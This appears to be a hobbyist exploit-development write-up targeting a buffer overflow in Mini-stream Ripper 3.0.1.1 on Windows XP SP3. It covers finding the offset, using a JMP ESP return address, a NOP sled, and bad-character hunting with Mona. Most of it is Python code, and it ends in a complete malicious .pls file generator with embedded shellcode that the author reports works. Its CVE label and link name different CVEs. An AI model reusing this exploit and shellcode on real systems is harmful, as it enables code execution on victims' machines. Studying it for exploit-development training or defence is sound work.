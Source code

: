 # Mini-stream Ripper 3.0.1.1 _ Win XP SP3 - Buffer Overflow

-   [cve details: CVE-2007-1567](https://nvd.nist.gov/vuln/detail/CVE-2009-5109)
-   Target: Mini-stream Ripper 3.0.1.1
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I check program and I see ,program looad several format file like PLS,m3u , ... . I create a exploit and send 50000 buffer to program.It crashed and EIP is 41414141.
I use Mona to detect size of the buffer (5786). But when Use this size of the buffer, Program not crash. Now I should be detect manually. For this I change my exploit to:


```
f=open("css.pls","w+")
exploit="A" * 12500 + "B" * 12500 + "C" * 12500 + "D" * 12500
f.write(exploit)
f.close()
```

IF EIP is 41414141 delete BCD, if 42424242 delete CB and ... . I several test and finally I recive to 26066.


```
f=open("css.pls","w+")
exploit="A" * 26066 + "BBBB"  + "C" * 100 
f.write(exploit)
f.close()
```

EIP is 42424242 and after 8 byte,"C" is buffered.So I add to my exploit , my shellcode and a address of the "jmo ESP" (point to stack,replace BBBB) 
and 8 NOP to by pass 8 byte gap.

```
f=open("css.pls","w+")
exploit="A" * 26066 + "\xcf\x2e\xe3\x73"  + "\x90" *8 + ("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")
f.write(exploit)
f.close()
```

But after run it ,shellcode Not execute and I understood ,I have badcahr :( . I generate bytearray with mona and add to my exploit :


```
f=open("css.pls","w+")
exploit="A" * 26066 + "\xcf\x2e\xe3\x73"  + "\x90" *8 + ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
f.write(exploit)
f.close()
```

I check manually and detect this bad char: \x00\x09\x0a . I generate shellcode and again it Not work. I have extra bad char. For detect It,I add 
last shellcode (without bad char) and in the last first line add "\xcc" (breakpoint). I run exploit and I see my shellcode not stop in \xcc.

```
"\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1\xcc"
```

I change posation of "\xcc" :

```
"\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xcc\xb1"
```

I change It to detect xd9 is badchar. I generate new shellcode without \x00\x09\x0a\xda\. After run again myshell code Not run. I run last step and
I understood xd9 is badchar, Finally I create shellcode without this character : "\x00\x09\x0a\xda\xd9" . and it run :)


```
f=open("css.pls","w+")

#jmp esp address: 73E32ECF 
#badcar: \x00\x09\x0a\xda\xd9

exploit="A" * 26066 + "\xcf\x2e\xe3\x73" + "\x90" *8 + ("\x31\xc9\x83\xe9\xcf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xbf\x9a\x3d\xef\x83\xee\xfc\xe2\xf4\x43\x72\xbf\xef\xbf\x9a"
"\x5d\x66\x5a\xab\xfd\x8b\x34\xca\x0d\x64\xed\x96\xb6\xbd\xab"
"\x11\x4f\xc7\xb0\x2d\x77\xc9\x8e\x65\x91\xd3\xde\xe6\x3f\xc3"
"\x9f\x5b\xf2\xe2\xbe\x5d\xdf\x1d\xed\xcd\xb6\xbd\xaf\x11\x77"
"\xd3\x34\xd6\x2c\x97\x5c\xd2\x3c\x3e\xee\x11\x64\xcf\xbe\x49"
"\xb6\xa6\xa7\x79\x07\xa6\x34\xae\xb6\xee\x69\xab\xc2\x43\x7e"
"\x55\x30\xee\x78\xa2\xdd\x9a\x49\x99\x40\x17\x84\xe7\x19\x9a"
"\x5b\xc2\xb6\xb7\x9b\x9b\xee\x89\x34\x96\x76\x64\xe7\x86\x3c"
"\x3c\x34\x9e\xb6\xee\x6f\x13\x79\xcb\x9b\xc1\x66\x8e\xe6\xc0"
"\x6c\x10\x5f\xc5\x62\xb5\x34\x88\xd6\x62\xe2\xf0\x3c\x62\x3a"
"\x28\x3d\xef\xbf\xca\x55\xde\x34\xf5\xba\x10\x6a\x21\xcd\x5a"
"\x1d\xcc\x55\x49\x2a\x27\xa0\x10\x6a\xa6\x3b\x93\xb5\x1a\xc6"
"\x0f\xca\x9f\x86\xa8\xac\xe8\x52\x85\xbf\xc9\xc2\x3a\xdc\xfb"
"\x51\x8c\x91\xff\x45\x8a\xbf\x9a\x3d\xef")
f.write(exploit)
f.close()

```

![]()

